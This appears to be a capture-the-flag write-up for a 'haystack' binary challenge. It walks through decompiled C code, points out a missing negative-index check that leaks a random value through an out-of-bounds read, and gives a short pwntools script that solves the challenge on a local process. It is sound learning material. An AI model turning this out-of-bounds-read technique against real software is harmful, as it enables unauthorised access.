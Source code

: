 ## Description:
Help! I've lost my favorite needle!

---

In the function below, it puts a tons of `0xb00` onto the stack.

```c
...
  for (i = 0; i < 0x100000; i = i + 1) {
    *(undefined4 *)(&stack0xffffffffffbfffe8 + (long)i * 4) = 0xb00;
  }
  vuln(&stack0xffffffffffbfffe8);
...
```

`vuln()` function:

```c
{
  int random_number;
  int num;
  long in_FS_OFFSET;
  int i;
  undefined8 buf;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  random_number = random_function();
  *(undefined4 *)(param_1 + (long)random_number * 4) = 0x1337;
  buf = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  i = 0;
  do {
    if (2 < i) {
LAB_00101429:
      if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
      return;
    }
    fwrite("Which haystack do you want to check?\n",1,0x25,stdout);
    fgets((char *)&buf,0x20,stdin);
    num = atoi((char *)&buf);
    if (num < 0x100001) {
      if (num == random_number) {
        printf("Hey you found a needle! And its number is 0x%08x! That\'s it!\n",
               (ulong)*(uint *)(param_1 + (long)num * 4));
        win();
      }
      else {
        printf("Hey, you found a needle, but it\'s number is 0x%08x. I don\'t like that one\n",
               (ulong)*(uint *)(param_1 + (long)num * 4));
        if (i == 0) {
          puts(
              "Shoot, I forgot to tell you that I hid a needle in every stack. But I only have one favorite needle"
              );
        }
        else {
          if (i == 1) {
            puts("Did I mention I\'m in a hurry? I need you to find it on your next guess");
          }
        }
      }
    }
    else {
      fwrite("I don\'t have that many haystacks!\n",1,0x22,stdout);
    }
    if (i == 2) {
      puts("I\'m out of time. Thanks for trying...");
      goto LAB_00101429;
    }
    puts("Let\'s try again!");
    i = i + 1;
  } while( true );
}
```

It generates a random number and asks for a number to check. Pretty much the same as the `Alien Math` challenge. But this time, the random number is totally random everytime we run the binary as there is a call to `srand(time(0))`.

```c
ulong random_function(void)
{
  long lVar1;
  int iVar2;
  time_t tVar3;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  tVar3 = time((time_t *)0x0);
  srand((uint)tVar3);
  iVar2 = rand();
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return (long)iVar2 % 0x100000 & 0xffffffff;
}
```

My initial thought was that I would have to get the right seed for that `rand()` function. But later on, I found out that in the `vuln()` function, it didn't check whether my input number was a negative one or not, which led to an out-of-bound read. With some calculation in gdb, I could see that by giving it `-22`, the random number would be outputed.

```python
from pwn import *

p = process('./haystack')

p.recv()
p.sendline(b'-22')

p.recvuntil(b'is ')

number = int(p.recvuntil(b'.')[:-1], 16)
print(hex(number))

p.recv()
p.sendline(str(number))

p.interactive()
```